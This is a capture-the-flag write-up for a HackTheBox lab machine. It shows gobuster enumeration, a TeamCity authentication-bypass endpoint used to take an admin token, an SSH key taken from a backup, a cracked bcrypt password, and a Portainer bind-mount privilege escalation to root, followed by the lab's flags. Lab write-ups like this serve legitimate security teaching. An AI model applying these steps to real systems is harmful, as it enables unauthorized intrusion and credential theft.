

Tags: `TeamCity`, `SSH Private Key`, `Portainer Privilege Escalation`

---

## Introduction and information gathering

In this machine provided by HackThebBox We have a CI/CD provider’s web site.



Looking into the web site it doesn’t seem to provide any useful information So i start with a `gobuster` enumeration (I used [this](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/bitquark-subdomains-top100000.txt) wordlist in this pentest).

```bash
┌──(k0d14k㉿k0d14k)-[~/…/tools/SecLists/Discovery/DNS]
└─$ gobuster vhost -u runner.htb -t 100 -w bitquark-subdomains-top100000.txt --append-domain 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://runner.htb
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: teamcity.runner.htb Status: 401 [Size: 66]
Progress: 100000 / 100001 (100.00%)
===============================================================
Finished
===============================================================

```

As shown by the `gobuster` execution, there is an alternative DNS known as `teamcity.runner.htb`.


I never heard of this service before but I used `IntelliJ Idea` in the past so I know the `JetBrains` style and this is a `JetBrains` Service.

Searching for some more information I noticed that this version of `TeamCity` has at least two CVEs and so I start to try some exploits.

Bot of these CVEs are explained [here](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/) and I can confirm that, using this article, I was able to get an administrator’s access token to get logged in.

As the guide suggests I’ve got the admin id by accessing the endpoint: `/hax?jsp=/app/rest/users;.jsp`


Then, by the following request, I’ve got the admin’s token:


And now I’m able to access the admin dashboard in `/admin/admin.html`.


## Getting the first access

In the left menu, We have many entries. If you look better you’ll notice that there is the `Server Administration` sub-menu that seems very interesting.

 In this part we have a `backup` functionality and it seems to provide very useful information:


After I downloaded and unzipped the backup I found an SSH key in the project's directory so We could establish a connection using one of the default users: `john` or `matthew`. So after set `400` permission over the `id_rsa` file We could launch the command:

```bash
ssh -i id_rsa john@runner.htb
```

And We are effectively connected as `john`.


### Road to ROOT

Now our focus is: “How can We become root”? Let’s see if We covered every host by catting `/etc/hosts`:

```bash
john@runner:/tmp$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 runner runner.htb teamcity.runner.htb portainer-administration.runner.htb

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

OK, We’ve got a new host: `portainer-administration.runner.htb`. Another useful piece of information that I didn’t tell you (but you should know if you are following this guide to solve the machine) is that in the backup there was a set of bcrypted passwords.

As I told you before, Matthew is a local user on the server. Maybe this user is linked to portainer so let’s try to crack the password using `hashcat`.

```bash
┌──(k0d14k㉿k0d14k)-[~/…/projects/AllProjects/pluginData/ssh_keys]
└─$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt -w 3 -S --show 
$2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em:piper123
```

I used the `--show` flag because I just got this password, you should create the hash file (containing the bcrypt) and copy-paste the command without the flag).

Let’s try to login into portainer with the founded credentials:


In portainer there is a really pretty way to gain privileges.

First of all the attacker needs to create a volume with the following attributes:

```bash
type=tmpfs
device=tmpfs
o=bind
device=/root
```

Then you should be able to create a new interactive container, where you are root by default, and mount this volume, when you attach a shell you get the host /root in your virtual filesystem.

So let’s connect a shell to the container:


And then get our last flag:


---

## Flags

## User flag: f2ed51639b0070b93164b4707927dc6d

## Root flag: 608da84938460b9541397de388d09997